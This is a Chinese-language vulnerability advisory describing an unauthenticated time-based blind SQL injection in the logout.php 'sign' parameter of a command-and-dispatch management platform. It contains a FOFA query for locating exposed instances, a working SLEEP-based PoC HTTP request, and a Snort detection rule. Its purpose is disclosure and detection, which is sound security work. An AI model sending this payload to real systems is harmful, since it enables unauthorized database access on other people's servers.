

# 指挥调度管理平台zx logout.php存在未授权SQL注入漏洞

指挥调度管理平台zx logout.php存在未授权SQL注入漏洞

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   ​**app=&quot;指挥调度管理平台&quot;**

**POC/EXP：**

**step1**  sql注入

```
GET /custom/zx/logout.php?sign=1'+AND+(SELECT+4068+FROM+(SELECT(SLEEP(5)))Vgsc)--+qhh HTTP/1.1
Host: 127.0.0.1
User-Agent: Moziilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"指挥调度管理平台 - zx/logout.php sign 未授权SQL注入漏洞 (SLEEP时间盲注)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/custom/zx/logout.php"; fast_pattern;
        content:"sign="; nocase; distance:0;
        content:"SELECT"; nocase; distance:0; within:50;
        content:"SLEEP"; nocase; distance:0; within:50;
    metadata:
        service http,
        affected_product "指挥调度管理平台",
        vulnerability_type "SQL Injection (Time-based blind, Unauthenticated)",
        severity "high";
    classtype:web-application-attack;
    sid:1000832;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
